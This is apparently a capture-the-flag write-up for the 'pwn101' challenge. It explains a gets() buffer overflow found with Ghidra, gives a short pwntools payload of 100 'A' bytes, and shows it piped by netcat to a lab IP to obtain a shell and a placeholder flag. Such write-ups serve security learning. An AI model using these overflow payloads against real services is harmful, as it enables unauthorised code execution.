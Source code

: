 Using ghidra to get the source code

![pwn101.png]({{site.baseurl}}/all_collections/images/pwn101/pwn101.png)



Here we can clearly see its checking if preset_value is 1337 if its not so we get shell.

So the objective is to rewrite preset_value to something other than 1337

As we are taking input from gets which is a dangerous function as it dosent limit in user input

Entering more characters than the input_buffer accepts will overwrite the preset_value.

Our exploit

```py
# simple pwntools script
from pwn import *

payload = b'A'*100

write("payload.txt",payload)

```

```bash
# Running the exploit
(cat payload.txt;cat) | nc 10.10.206.5 9001
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 

Thanks, Heres a small gift for you <3

ls
flag.txt
pwn101
pwn101.c
cat flag.txt
THM{fake_flag}   # get you own flag

```

## Challenge 2 - pwn102

The challenge is running on port 9002
